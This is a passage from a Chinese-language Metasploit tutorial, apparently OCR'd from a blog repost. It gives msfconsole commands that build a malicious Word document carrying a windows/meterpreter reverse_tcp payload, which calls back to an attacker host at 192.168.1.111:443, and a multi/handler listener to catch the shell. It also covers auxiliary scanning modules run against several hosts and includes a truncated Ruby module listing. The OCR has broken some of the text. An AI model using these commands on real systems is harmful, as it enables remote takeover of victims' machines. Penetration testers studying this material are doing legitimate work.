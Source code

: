 ```
set payload windows/meterpreter/reverse_tcp 
set LHOST 192.168.1.111 
set LPORT 443 
exploit 
此时会生成一个msf.doc 的word 文档，在目标机器上打开此文档，然后本机监听端口 
等待反弹连接： 
use multi/handler 
set payload windows/meterpreter/reverse_tcp 
set LHOST 192.168.1.111 
set LPORT 443 
exploit –j

### 九．MSF 附加模块 
包括端口扫描，服务探测，弱口令探测，fuzzer，sql 注射等。附加模块没有payload。 
模块保存在/opt/framework3/msf3/modules/auxiliary/目录中的各个子目录下。 
可用命令查看全部可用附加模块：msf> show auxiliary 
例子： 
```
msf> use scanner/http/webdav_scanner 
info 
show options 
set RHOSTS 192.168.1.141,192.168.1.142,192.168.2.222 
run 
```
搜索所有http 相关扫描模块： 
sea rch scanner/http 
附加模块深层剖析： 
cd /opt/framework3/msf3/modules/auxiliary/admin/ 
wget 
http://carnal0wnage.googlecode.c … admin/random/foursq 
ueare.rb 
代码分析: 
require ‘msf/core’ 
class Metasploit3 < Msf::Auxiliary #导入Auxiliaary 类 
#Exploit mixins should be called first 
include Msf::Exploit::Remote::HttpClient #导入HTTPClient 方法 
include Msf::Auxiliary::Report 
def initialize 
super( 
‘Name’ => ‘Foursquare Location Poster’, 
‘Version’ => ‘Revision:

---------------------

>原文撰者：[PolluxAvenger](https://blog.csdn.net/tan6600/article/details/46850057?utm_source=copy "PolluxAvenger") - 由本人稍加更改。
